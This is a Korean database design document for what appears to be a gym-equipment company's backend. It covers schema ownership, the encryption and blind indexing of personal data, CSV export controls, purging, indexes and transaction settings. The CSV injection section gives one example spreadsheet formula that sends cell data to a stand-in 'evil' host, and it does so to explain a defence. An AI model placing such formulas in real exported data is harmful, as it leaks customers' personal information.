


# DB 구조

실제 스키마: [`src/main/resources/db/migration/V1__init.sql`](https://github.com/GYMLECO-KOREA/gymleco-be/blob/main/src/main/resources/db/migration/V1__init.sql) (gymleco-be)

스키마의 소유자는 **Flyway** 입니다. Hibernate 는 `ddl-auto: validate` 로만 동작합니다.
`update` 로 두면 운영 DB 가 코드 변경에 따라 조용히 바뀝니다.

---

## ERD

---

## 개인정보를 담는 테이블은 하나뿐

`inquiry` 만 이름·전화·이메일을 갖습니다. 의도적으로 한 곳에 모았습니다 —
분산돼 있으면 파기·접근제어·감사를 모든 곳에 적용해야 하고, 반드시 하나를 빠뜨립니다.

### 전화번호를 다루는 방식

**왜 결정적 암호화를 쓰지 않는가**
같은 평문이 항상 같은 암호문이 되면, 복호화 없이도 "이 번호가 몇 번 나왔는지"
같은 빈도 분석이 가능합니다. 랜덤 IV + 별도 블라인드 인덱스가 정석입니다.

**두 키는 반드시 다른 값**이어야 합니다. 같으면 인덱스에서 암호화 키가 노출됩니다.

### CSV 내보내기가 실제 유출 통로다

컬럼 암호화를 아무리 잘해도, 관리 화면의 CSV 내보내기는 **전부 복호화해서
평문 파일로 뽑아냅니다.** 그래서:

- 내보내기 시 `admin_audit_log` 에 반드시 기록
- 셀 값에 CSV 인젝션 방어 적용 (아래)
- 권한을 `ADMIN` 으로 제한 (`EDITOR` 는 불가)

### CSV 인젝션

`=`, `+`, `-`, `@`, 탭, 캐리지리턴으로 시작하는 셀은 Excel 에서 **수식으로 실행**됩니다.
문의 메시지에 `=HYPERLINK("http://evil/"&A1,"클릭")` 을 넣으면 대표님이 파일을 여는 순간
데이터가 빠져나갑니다.

방어: 해당 문자로 시작하는 값 앞에 작은따옴표를 붙이고, 큰따옴표로 감싸며,
내부 큰따옴표는 두 번 반복합니다. 개행·탭도 제거합니다.

---

## 자동 파기

`purge_at > consent_at` 를 CHECK 제약으로 걸어 두었습니다.
계산 실수로 즉시 파기 대상이 되는 데이터가 만들어지지 않습니다.

---

## 인덱스 설계 근거

| 인덱스 | 대상 쿼리 |
|---|---|
| `ix_product_visible_sort` (부분) | 공개 제품 목록. `WHERE visible` 로 좁혀 인덱스 크기를 줄임 |
| `ix_news_published` (부분) | 공개 소식 최신순 |
| `ix_inquiry_status_created` | 관리 화면 기본 목록 (상태별 최신순) |
| `ix_inquiry_phone_blind` | 전화번호 검색 |
| `ix_inquiry_purge` | 파기 배치 일일 스캔 |
| `ix_inquiry_product_product` | "어떤 제품 문의가 많은가" (§1.2 2차 KPI) |
| `ix_login_attempt_ip` | IP 기준 로그인 시도 제한 |

---

## 트랜잭션 방침

| 항목 | 설정 | 이유 |
|---|---|---|
| `open-in-view` | **false** | 기본값 true 면 뷰 렌더링까지 커넥션을 붙들어 풀이 요청 수만큼 묶인다. 지연 로딩 실수도 가려진다 |
| 조회 메서드 | `@Transactional(readOnly = true)` | 플러시를 생략하고 더티체킹 스냅샷을 만들지 않는다 |
| 배치 | `jdbc.batch_size: 50`, `order_inserts` | 갤러리 이미지 여러 장 저장 시 왕복 횟수를 줄인다 |
| 외부 호출 | `@TransactionalEventListener(AFTER_COMMIT)` | ISR 재검증·메일 발송을 커밋 이후로. 트랜잭션 안에서 부르면 롤백된 데이터로 사이트가 갱신된다 |
| 페이징 + 컬렉션 | `fail_on_pagination_over_collection_fetch: true` | 조인 페치 + 페이징을 메모리에서 처리하는 조용한 성능 함정을 예외로 드러낸다 |
